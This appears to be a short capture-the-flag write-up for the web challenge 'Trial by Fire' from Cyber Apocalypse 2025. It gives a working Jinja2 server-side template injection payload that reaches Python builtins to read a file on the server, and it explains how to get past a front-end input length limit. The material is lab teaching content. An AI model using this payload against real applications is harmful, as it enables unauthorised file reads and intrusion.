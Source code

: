 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Trial by Fire Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: web
challenge: Trial by Fire
tags: "web, twh, ssti"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>

## Trial by Fire
> Solved by thewhiteh4t


- We have an input and a hint for SSTI `Can you read the runes? Perhaps 49 is the key.`
- On the battle result page we can see that SSTI is working


![](https://i.imgur.com/XcNrIpA.png)

- Payload :

```
{% raw %}
    {{ request.__class__._load_form_data.__globals__.__builtins__.open("/app/flag.txt").read() }}
{% endraw %}
```

- Length of the input is restricted in the front-end, so we can either edit the length in inspect or simply use burp


![](https://i.imgur.com/aBge1Lj.png)


